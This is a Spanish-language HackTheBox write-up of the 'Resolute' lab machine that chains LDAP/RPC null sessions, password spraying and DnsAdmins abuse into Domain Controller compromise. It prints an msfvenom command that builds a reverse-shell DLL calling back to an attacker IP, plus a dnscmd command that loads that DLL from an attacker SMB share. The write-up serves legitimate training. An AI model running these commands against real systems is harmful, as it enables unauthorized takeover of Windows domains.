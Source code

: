 ```yaml
---
title: Resolute - Write Up (HTB) ❤
author: sha16
categories: [HackTheBox, Active Directory]
tags: [Abusing DNSAdmins Group, Active Directory, Null Session via RPC, Password Spraying, Password exposed via RPC, Windows]
---
```


Buenas a tod@s, el día de hoy les traigo un `write-up` de la máquina `Resolute` de `HackTheBox`.  

![Untitled](/assets/img/htb/machines/Resolute/Untitled.png)

Como en cada `write-up`, lo primero hacemos es lanzar un escaneo de puertos con `nmap` con el objetivo de identificar potenciales vías de ataque. 

Como podrán ver a continuación, se específica el parámetro `-sS` con el objetivo de que el escaneo sea vía `TCP SYNC`, lo que de cierto modo me permitirá agilizarlo, debido a que no hay `Three-Way-HandShake` como en `TCP`.

Lo otro es que se configura el `--min-rate` en `3000` con la idea de no enviar una cantidad menor a `3000` paquetes por segundo.

**Advertencia:** No aconsejo lanzar este escaneo en entornos productivos debido a que es ultra ruidoso y agresivo. En este caso lo estoy lanzando en un entorno controlado de `HackTheBox`.

```bash
nmap -v -sS --min-rate 3000 -n -Pn -p- 10.10.10.169 -oG tcp_ports.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%201.png)

En el resultado del escaneo, se identifican varios servicios de interés, entre ellos: WinRPC, SMB, LDAP, WinRM y Kerberos. Sin embargo, ya con sólo ver al servicio `Kerberos`, podemos deducir que estamos ante un entorno de *Active Directory*. Por lo que ya podemos saber más o menos cómo enforcar nuestra estrategia de ataque y enumeración.

```bash
nmap -v -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49682,49714,49839 10.10.10.169 -oN port_scan.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%202.png)

Uno de los primeros problemas de seguridad que identificamos al enumerar la máquina, es que te puedes autenticar sobre el servicio LDAP sin necesidad de una contraseña, pudiendo listar información sensible del dominio, tal como usuarios, propiedades de objetos, etc.

```bash
ldapsearch -H ldap://10.10.10.169 -w '' -x -b 'DC=megabank,DC=local'
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%203.png)

De la misma forma, esto ocurre con WinRPC, donde nos podemos autenticarnos con el *null session* y listar a todos los usuarios del dominio.

```bash
rpcclient -N -U '' megabank.local
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%204.png)

Al listar las descripciones de cada usuario, identificamos que en la del usuario `marko` hay una contraseña `Welcome123!`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%205.png)

Teniendo una contraseña potencialmente válida, realizamos un *Password Sprying* donde identificamos que esta la pertenece al usuario `melanie`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%206.png)

Al validar la credencial sobre el servicio WinRM, descubrimos que el usuario `melanie` forma parte del grupo `Remote Management Users`, por lo que podemos obtener acceso directo hacía una consola en el servidor con la herramienta `evil-winrm`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%207.png)

Habiendo obtenido acceso al servidor, identificamos la carpeta `PSTranscripts`, la cual no forma parte del listado común de directorios en la raíz de los sistemas operativos Windows. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%208.png)

Al revisar dicho directorio, se identifica otro directorio dentro de este, el cual posee un archivo de texto.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%209.png)

Al revisar dicho archivo, se identifican comandos de consola, los cuales muestran intentos de autenticación sobre un recurso de red, con la contraseña del usuario `ryan`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2010.png)

Esta contraseña es validada con `crackmapexec`, herramienta con la cual validamos que el usuario `ryan` también pertenece al grupo `Remote Management Users`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2011.png)

Posterior a esto, antes de autenticarnos con el usuario `ryan`, lanzamos la herramienta `SharpHound.exe`, con el objetivo de listar potenciales vectores de ataque que puedan existir entre las relaciones establecidas entre los distintos objetos que componen al AD. 

```powershell
cmd /c SharpHound.exe --CollectionMethods All
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2012.png)

Analizando el esquema de relación, detectamos que el usuario forma parte del grupo `Contractors`, el cual a su vez pertenece al grupo privilegiado, `DnsAdmins`. 

En este punto, hemos encontrado el vector de escalada de privilegios, debido a que el grupo `DnsAdmins` forma parte de los objetos críticos del directorio activo. Esto significa que, un usuario que forma parte de este, tiene la capacidad de controlar la totalidad del servicio, incluida las DLLs que se ejecutan en contexto privilegiado. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2013.png)

Por lo tanto, dado que tenemos control total del servicio, podemos crear una DLL maliciosa con la herramienta `MSFvenom`, la cual está compilada para enviarnos una *reverse shell* a nuestra máquina, al puerto `443` en escucha. 

Es importante destacar que esta DLL, sobre la cual tenemos control, se ejecuta en un contexto de máximos privilegios en el servidor.

```powershell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp -e x64/xor LHOST=10.10.17.210 LPORT=443 -f dll -o dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2014.png)

Posterior a esto, con la herramienta `dnscmd.exe`, la cual es utilizada para administrar el DNS, añadimos a la DLL maliciosa como un *plugin* del servicio.

Cabe destacar que la DLL se encuentra servida en una carpeta compartida por SMB, en nuestro servidor atacante. 

```powershell
dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.17.210\smb\dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2015.png)

Como se observó en la imagen anterior, la configuración es aplicada exitosamente.

En base a esto, se reinicia el servidor DNS, lo cual provoca que automáticamente se invoque y ejecute nuestra DLL, a través del servicio SMB. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2016.png)

Habiéndose ejecutado, recibimos con éxito la *reverse shell* de `NT Authority\System`, en el puerto en escucha de nuestra máquina. De esta manera, logramos control total del *Domain Controller*.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2017.png)

### Referencias

- DNSAdmin to DC compromise in one line (by Shay Ber): [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
- dnscmd (Microsoft Learn): [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)
- DnsAdmins to DomainAdmin: [https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)